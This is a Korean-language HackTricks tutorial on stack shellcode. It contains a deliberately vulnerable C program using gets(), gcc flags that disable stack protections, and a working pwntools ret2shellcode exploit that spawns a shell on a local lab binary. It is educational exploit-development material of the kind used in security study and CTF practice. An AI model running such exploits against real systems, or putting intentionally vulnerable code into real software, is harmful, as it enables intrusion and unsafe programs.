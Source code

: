 # 스택 쉘코드

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>

## 기본 정보

**스택 쉘코드**는 이진 해킹에서 사용되는 기술로, 공격자가 취약한 프로그램의 스택에 쉘코드를 작성한 다음 **명령어 포인터 (IP)** 또는 **확장된 명령어 포인터 (EIP)**를 이 쉘코드의 위치를 가리키도록 수정하여 실행시키는 기법입니다. 이는 무단 액세스를 얻거나 대상 시스템에서 임의의 명령을 실행하는 데 사용되는 고전적인 방법입니다. 여기에는 간단한 C 예제와 **pwntools**를 사용하여 해당 취약점을 이용하는 방법이 포함되어 있습니다.

### C 예제: 취약한 프로그램

간단한 취약한 C 프로그램 예제부터 시작해보겠습니다:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
이 프로그램은 `gets()` 함수 사용으로 버퍼 오버플로우 취약점이 있습니다.

### 컴파일

취약한 환경을 시뮬레이션하기 위해 다양한 보호 기능을 비활성화하면서 이 프로그램을 컴파일하려면 다음 명령을 사용할 수 있습니다:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: 스택 보호 기능을 비활성화합니다.
* `-z execstack`: 스택을 실행 가능하게 만들어줍니다. 이는 스택에 저장된 쉘코드를 실행하는 데 필요합니다.
* `-no-pie`: 위치 독립 실행 파일을 비활성화하여 쉘코드가 위치할 메모리 주소를 예측하기 쉽게 합니다.
* `-m32`: 프로그램을 32비트 실행 파일로 컴파일합니다. 종종 exploit 개발의 간편함을 위해 사용됩니다.

### Pwntools를 사용한 Python Exploit

다음은 **pwntools**를 사용하여 **ret2shellcode** 공격을 수행하는 Python exploit을 작성하는 방법입니다:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
이 스크립트는 **NOP 슬라이드**, **쉘코드**, 그리고 **EIP**를 NOP 슬라이드를 가리키는 주소로 덮어쓰면서 쉘코드가 실행되도록 페이로드를 구성합니다.

**NOP 슬라이드** (`asm('nop')`)는 실행이 정확한 주소에 관계없이 쉘코드로 "슬라이딩"될 가능성을 높이기 위해 사용됩니다. `p32()` 인자를 버퍼의 시작 주소에 오프셋을 더한 값으로 조정하세요.

## 보호 기능

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/)은 실행마다 신뢰할 수 있는 주소를 위해 **비활성화**되어야 합니다. 그렇지 않으면 함수가 저장될 주소가 항상 동일하지 않을 수 있고 이길 함수가 로드된 위치를 알아내기 위해 일부 정보 누출이 필요할 수 있습니다.
* [**스택 카나리**](../common-binary-protections-and-bypasses/stack-canaries/)도 비활성화되어야 합니다. 그렇지 않으면 침해된 EIP 반환 주소가 결코 따라가지 않을 수 있습니다.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **스택** 보호는 스택 내부의 쉘코드 실행을 방지할 수 있습니다. 해당 영역은 실행할 수 없기 때문입니다.

## 다른 예시

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
